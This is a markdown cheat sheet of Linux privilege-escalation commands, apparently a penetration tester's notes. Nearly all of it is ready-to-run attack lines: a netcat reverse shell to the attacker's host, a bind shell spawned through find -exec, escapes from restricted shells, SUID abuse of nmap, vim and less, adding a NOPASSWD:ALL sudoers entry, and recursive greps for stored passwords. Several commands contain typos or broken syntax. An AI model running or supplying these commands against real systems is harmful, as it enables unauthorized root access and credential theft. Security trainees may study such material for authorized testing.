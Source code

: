 # Linux privilege escalation
### Spawn Interactive Shell and set env  

python -c 'import pty;pty.spawn("/bin/bash");'  
ctrl z  
echo $TERM  
stty -a  
stty raw -echo  
fg  

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=bash  

stty rows \<> colums \<>  

### Restricted bash
perl -e 'exec "/bin/sh";'  
/bin/sh -i  
exec "/bin/sh";  
echo os.system('/bin/bash')  
/bin/sh -i  
ssh user@$ip nc $localip 4444 -e /bin/sh  
export TERM=linux  

### Check environment 
Check any restricitions on any folders  
mount -l        >> any no exec or no suid?  

Check any unmounted drives  
cat /etc/fstab  

### SUID
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.  
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.  
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.  

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID < full search  
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin < quicker  

-find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null  

find / perm /u=s -user "User name that you are looking for" 2>/dev/null  

### Writable file and nobody files  
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files  
find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files  

### Writable by current user  
find / perm /u=w -user `whoami` 2>/dev/null  
find / -perm /u+w,g+w -f -user `whoami` 2>/dev/null  
find / -perm /u+w -user `whoami` 2>/dev/nul  

### Any script files that we can modify?  
find / -writable -type f -name "*.py" 2>/dev/null     #find all python file that can be write by us  

ls -aRl / | awk '$1 ~ /^.*w.*/' 2>/dev/null     # Anyone  
ls -aRl / | awk '$1 ~ /^..w/' 2>/dev/null       # Owner  
ls -aRl / | awk '$1 ~ /^.....w/' 2>/dev/null    # Group  
ls -aRl / | awk '$1 ~ /w.$/' 2>/dev/null        # Other  

find / -readable -type f 2>/dev/null               # Anyone  
find / -readable -type f -maxdepth 1 2>/dev/null   # Anyone  

### Any service running by root?  
ps aux|grep "root"  

/usr/bin/journalctl (Which is normally not readable by a user) << cron job?  

### Find password  
grep -rnw '/' -ie 'pass' --color=always  
grep -rnw '/' -ie 'DB_PASS' --color=always  
grep -rnw '/' -ie 'DB_PASSWORD' --color=always  
grep -rnw '/' -ie 'DB_USER' --color=always  

# Exploit Time
## SUID
#### Is suid bit set on these applications?

Nmap  
    nmap -V     <Nmap version 2.02 - 5.21 had an interactive mode  
    nmap --interactive  
    nmap> !sh  
    
Vim  
    Modify system file, e.g. passwd?  
    
    vim.tiny  
    - Press ESC key  
    :set shell=/bin/sh  
    :shell  
    
find  
    touch pentestlab  
    find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;  
    
Bash  
    bash -p      
            
More  
    
Less  
    less /etc/passwd  
    !/bin/sh  

Nano  
    Can you modify system file?  
    Modify /etc/suoders  
    \<user> ALL=(ALL) NOPASSWD:ALL  
    
cp  
    Use cp to overwrite passwd with a new password  
    
### Is there a custom suid application?  
How can this application be run?  
Can be modify the path variable so that it will execute something else  

